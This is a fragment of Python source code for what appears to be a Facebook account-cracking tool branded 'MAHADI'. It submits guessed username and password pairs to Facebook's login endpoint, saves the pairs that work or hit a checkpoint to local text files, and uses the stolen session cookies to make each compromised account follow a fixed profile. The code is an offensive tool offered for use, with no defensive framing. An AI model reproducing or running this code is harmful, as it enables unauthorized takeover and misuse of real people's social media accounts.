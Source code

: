                     "x-requested-with":"XMLHttpRequest",
                    "sec-fetch-site":"same-origin",
                    "sec-fetch-mode":"cors",
                    "sec-fetch-user":"empty",
                    "sec-fetch-dest":"document",
                    "referer":"https://"+cebok+"/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F",
                    "accept-encoding":"gzip, deflate br",
                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"
                }
                po = session.post(f"https://{cebok}/login/device-based/validate-password/?shbl=0", data = das, headers = header1, allow_redirects = False)
                if 'c_user' in session.cookies.get_dict():
                    coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                    print(f"\r{H} [MAHADI-OK] {user} | {pw}")
                    wrt = '%s|%s' % (user,pw)
                    ok.append(wrt)
                    open('MAHADI_OK.txt' , 'a').write('%s\n' % wrt)
                    self.follow(session,coki)
                    break
                elif 'checkpoint' in session.cookies.get_dict():
                    try:
                        tokenz = open('.token.txt').read()
                        cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={tokenz}').json()['birthday']
                        month, day, year = cp_ttl.split('/')
                        month = bulan_ttl[month]
                        print('\r%s [MAHADI-CP] %s | %s ' % (M, user, pw))
                        wrt = '%s|%s' % (user,pw)
                        cp.append(wrt)
                        open('MAHADI_CP.txt' , 'a').write('%s\n' % wrt)
                        break
                    except (KeyError, IOError):
                        month = ''
                        day   = ''
                        year  = ''
                    except:
                        pass
                    print('\r%s [MAHADI-CP] %s | %s ' % (M, user, pw))
                    wrt = '%s|%s' % (user,pw)
                    cp.append(wrt)
                    open('MAHADI_CP.txt' , 'a').write('%s\n' % wrt)
                    break
                else:
                    continue
            loop+=1
        except:
            self.__metode__(user, pw, cebok)

    def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100007607054845', cookies={'cookie': coki}).text, 'html.parser')
        get = r.find('a', string='Ikuti').get('href')
        session.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text
